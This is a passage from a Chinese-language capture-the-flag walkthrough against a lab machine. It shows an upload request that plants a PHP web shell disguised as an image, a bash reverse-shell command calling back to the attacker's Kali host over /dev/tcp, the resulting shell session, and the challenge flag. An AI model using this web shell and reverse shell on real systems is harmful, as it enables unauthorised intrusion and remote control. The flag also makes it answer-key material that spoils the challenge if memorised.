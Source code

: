 ```bash
Content-Disposition: form-data; name="id_user"

1
-----------------------------40674686325473066152319269900
Content-Disposition: form-data; name="name"

Raspery Pi 4
-----------------------------40674686325473066152319269900
Content-Disposition: form-data; name="image"; filename="mn.phar"
Content-Type: image/jpeg

<?php system($_GET['cmd'])?>
-----------------------------40674686325473066152319269900
Content-Disposition: form-data; name="description"

Latest Raspberry Pi 4 Model B with 2/4/8GB RAM raspberry pi 4 BCM2711 Quad core Cortex-A72 ARM v8 1.5GHz Speeder Than Pi 3B
-----------------------------40674686325473066152319269900
Content-Disposition: form-data; name="price"

92
-----------------------------40674686325473066152319269900--
```


上传成功后访问`http://172.16.1.65/item/image/mn.phar?cmd=pwd`

接下来反弹`shell`

Kali:172.16.1.52
```shell
$ nc -lvp 123
```

然后访问
```bash
http://172.16.1.65/item/image/mn.phar?cmd=bash -c "bash -i >%26 /dev/tcp/172.16.1.52/123 0>%261"
```

kali
```bash
root@kali:/opt# nc -lvp 123
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::123
Ncat: Listening on 0.0.0.0:123
Ncat: Connection from 172.16.1.65.
Ncat: Connection from 172.16.1.65:42632.
bash: cannot set terminal process group (592): Inappropriate ioctl for device
bash: no job control in this shell

www-data@secure:/var/www/html/item/image$ which python3
/usr/bin/python3
www-data@secure:/var/www/html/item/image$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@secure:/var/www/html/item/image$ tty
/dev/pts/0
www-data@secure:/var/www/html/item/image$ cd /var/www/
www-data@secure:/var/www/$ ls
flag2.txt  html
www-data@secure:/var/www$ cat flag2.txt
legendary

FLAG2: 3599f5effdb3ed07d9a90a4ed19d13ad4

www-data@secure:/var/www$
```
`FLAG2`:`FLAG2: 3599f5effdb3ed07d9a90a4ed19d13ad4`

# 